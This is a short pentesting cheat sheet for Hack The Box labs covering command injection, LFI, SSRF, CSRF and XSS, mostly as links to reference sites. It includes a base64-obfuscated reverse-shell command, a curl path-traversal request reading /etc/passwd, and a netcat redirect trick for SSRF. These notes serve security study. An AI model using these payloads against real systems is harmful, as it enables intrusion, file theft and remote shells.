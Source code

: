 ## COMMAND INJECTION
- [HackTricks](https://book.hacktricks.xyz/pentesting-web/command-injection)
- [PayLoads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
- `echo${IFS}"c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi85OTk5IDA+JjEK" | base64${IFS} -d | bash` Send the payload

## LOCAL FILE INCLUSION(LFI)
- [HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
- [Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

  - ### LFI TO RCE:
    - `https://github.com/synacktiv/php_filter_chain_generator`

### METHODS:
- `file:///etc/passwd`
- [Common Files](#COMMON-FILES-TO-TESTRETRIVE)

```
"View source code and change image directory"
`curl -k 'https://broscience.htb/includes/img.php?path=../../../../../../etc/passwd'`
```
## Server Side Request Forgery(SSRF)
- [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery)
- [PayLoads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
- [YouTube](https://www.youtube.com/watch?v=Zyt7lUO3mY8&ab_channel=LoiLiangYang)

### METHODS:
```
echo 'HTTP/1.1 301 Moved Permanently' >> response
echo 'Location: http://forge.htb/' >> response
echo '' >> response
echo '' >> response
nc -lvnp 8000 < response
```

## Cross-Site Request Forgery(CSRF)
- [HackTricks](https://book.hacktricks.xyz/pentesting-web/csrf-cross-site-request-forgery)
- [PayLoads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection)
- [YouTube](https://www.youtube.com/watch?v=V03_7CphtHE&ab_channel=LoiLiangYang)

## Cross Site Scripting(XSS)
- [HackTricks](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)
- [PayLoads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
- [YouTube](https://www.youtube.com/watch?v=PPzn4K2ZjfY&ab_channel=LoiLiangYang)

### DOM
his is a type of XSS attack where the vulnerability exists in the client-side code rather than the server-side code. The malicious script is embedded in the HTML page and is executed by the victim's browser when the page is loaded. This makes it more difficult to detect and prevent, as it does not involve the server at all.
One good example is search bar.
